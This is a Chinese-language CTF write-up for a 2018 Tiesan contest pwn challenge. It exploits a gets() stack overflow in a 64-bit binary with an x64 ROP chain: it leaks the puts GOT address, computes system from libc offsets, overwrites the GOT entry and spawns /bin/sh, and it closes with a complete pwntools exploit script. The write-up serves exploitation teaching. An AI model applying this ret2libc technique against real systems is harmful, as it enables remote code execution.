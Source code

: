 ```yaml
---
layout:     post
title:      "2018铁三个人赛样题writeup"
subtitle:   " \"x64 Rop\""
date:       2018-02-12 12:00:00
author:     "Chris"
catalog: true
tags:
    - Pwn
 
---
```


>传送门

[源文件下载](https://github.com/yxshyj/project/tree/master/pwn/2018%E9%93%81%E4%B8%89%E4%B8%AA%E4%BA%BA%E8%B5%9B%E6%A0%B7%E9%A2%98)

## 0x00 程序分析
使用IDA pro 打开程序文件

![](https://i.imgur.com/16hax4G.png)

程序存在典型的栈溢出，使用gets没有限制输入的长度，而且存在gets，puts等函数调用。
 
运行程序

![](https://i.imgur.com/Wn8NFmk.png)

长度过长的时候会导致程序崩溃。

检查程序的保护措施

![](https://i.imgur.com/r00sAnm.png)

## 0x01 测量偏移长度
1)  使用pwntools 产生150个垃圾字符

pip install pwntools 之后

pwn cyclic 150

![](https://i.imgur.com/eynMELO.png)

将这些字符串输出到一个test文件中

2)  gdb 调试

![](https://i.imgur.com/krUzqBd.png)

查看gdb的调试信息

![](https://i.imgur.com/u0dZ1WC.png)

图中显示运行到ret 处停止，ret 指令 相当于 pop rax ; jmp rax

也就是从栈顶取值，并跳转到这个值的地址。

栈顶的值是kaaa 由此得偏移量为40。

![](https://i.imgur.com/klPeu5U.png)

## 0x02 漏洞利用思路

现在可以利用栈溢出让程序跳转到任意位置，但是由于程序开启了NX，且系统中开启了ASLR，所以采用ROP技术，构造出一个system(“/bin/sh”).
system函数在libc中，且每次运行都会变化，我们通过构造payload泄露libc中的另一个函数puts在GOT表中的真实地址，puts和system 在libc中的偏移是固定的，进而推算出system地址。
再次构造ROP 使用gets函数将put函数的GOT地址覆盖为system函数地址，然后再跳转到put即可实现getshell。
 
1)  泄露puts函数的GOT地址
首先收集gets的plt地址 和 puts的plt，got地址。

![](https://i.imgur.com/AAdxxpE.png)

需要构造 puts(puts_got)

在64位中通过寄存器传递参数 依次是rdi,rsi,rdx,r10,r8,r9

使用ROPgadget 查找 pop rdi;ret;  用于设置puts函数的第一个参数。

ROPgadget --binary ./tie3_pwn --only "pop|ret"

![](https://i.imgur.com/Wc5KnZl.png)

pop rdi ; ret ; 的地址是0x4006f3
 
构造payload  pop_rdi + puts_got + puts_plt 

![](https://i.imgur.com/P4l6ru1.png)

运行结果如下

![](https://i.imgur.com/aVYERT3.png)

 
到此已经成功的获取到了put的函数地址。
 
计算偏移

	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
	system_off = libc.symbols['system']
	puts_off = libc.symbols['puts']
	off = system_off - puts_off
此时system的地址也知道了。
 
2)  将put替换为system地址获得shell

使用gets函数，构造gets(puts_got)  ，然后再构造system(“/bin/sh”)
 
在原来的基础上

 pop_rdi + puts_got + puts_plt  

 +pop_rdi+puts_got+gets_plt  此时已经构造好覆盖put函数got表的payload
 
 +pop_rdi + bin_sh + puts_plt   执行system(“/bin/sh”)

 

最后完整的payload如下

 

	from pwn import *
	
	context.log_level = "debug"
	
	e = ELF("./tie3pwn")
	puts_plt = e.plt['puts']
	gets_plt = e.plt['gets']
	puts_got = e.got['puts']
	 
	print "puts_plt: "+hex(puts_plt)
	print "gets_plt: "+hex(gets_plt)
	print "puts_got: "+hex(puts_got)
	 
	pop_rdi = 0x4006f3
	print "pop_rdi: "+hex(pop_rdi)
	 
	libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
	system_off = libc.symbols['system']
	puts_off = libc.symbols['puts']
	off = system_off - puts_off
	 
	payload = "A"*40+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)
	payload += p64(pop_rdi)+p64(puts_got)+p64(gets_plt)
	payload += p64(pop_rdi)+p64(puts_got+8)+p64(puts_plt)
	 
	s = remote("127.0.0.1",8888)
	s.recvuntil(":")
	s.sendline(payload)
	s.recvuntil("tie3\n")
	 
	puts_addr = u64(s.recvuntil("\n")[:-1].ljust(8,"\x00"))
	print "puts_addr: "+hex(puts_addr)
	system_addr = puts_addr+off
	print "system_addr: "+hex(system_addr)
	 
	s.sendline(p64(system_addr)+"/bin/sh\x00")
	s.interactive()
 
运行结果如下 为了方便没有显示调试信息

![](https://i.imgur.com/aVYERT3.png)